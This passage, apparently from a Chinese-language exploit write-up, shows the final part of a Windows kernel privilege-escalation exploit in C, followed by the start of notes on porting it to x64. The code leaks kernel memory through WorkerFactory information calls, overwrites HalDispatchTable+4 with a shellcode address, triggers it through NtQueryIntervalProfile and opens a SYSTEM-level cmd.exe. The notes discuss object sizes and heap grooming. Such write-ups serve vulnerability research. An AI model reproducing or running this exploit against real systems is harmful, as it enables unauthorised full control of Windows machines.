 ```
    MyNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, 0, 0, 0, WorkerFactory, 0xA0 - 0x4, 0, 0);
 
    //读 oldHaliQuerySystemInformation
    //内核会返回0x60自己的数据  需要的数据被放在  kernelRetMem+0x50
    BYTE kernelRetMem[0x60] = { 0 };
    MyNtQueryInformationWorkerFactory(hWorkerFactory, 7, kernelRetMem, 0x60, NULL);
    oldHaliQuerySystemInformation = *(DWORD*)(kernelRetMem + 0x50);
 
    //写shellcode地址到HalDispatchTable + 4
    DWORD scAddr = (DWORD)Shellcode;
    MyNtSetInformationWorkerFactory(hWorkerFactory, 8, &scAddr, 4);
 
    //调用shellcode
    DWORD Interval;
    MyNtQueryIntervalProfile(2, &Interval);
 
    //提权后创建一个system权限的cmd
    ShellExecuteA(NULL, "open", "cmd.exe", NULL, NULL, SW_SHOW);
 
    system("pause");
    return 0;
}
```  
#   
#   
#   
# x64的思考  
##   
## 问题  
  
  
1.WorkerFactory的大小问题，MDL的大小问题  
  
   
  
2.因为对象与结构体大小导致的第一次释放占坑问题  
  
   
  
3.内存大小问题导致的第二次占坑成功率问题  
  
   
  
4.任意地址读写的偏移问题  
  
   
  
5.64位中清理句柄的问题  
##   
## 解决  
  
  
1.WorkerFactory在64位中大小为0x100，可以通过前面的分析步骤来分析，我在外文PDF中看到他说了是0x100（经过一番跟踪，确实是0x100）。  
  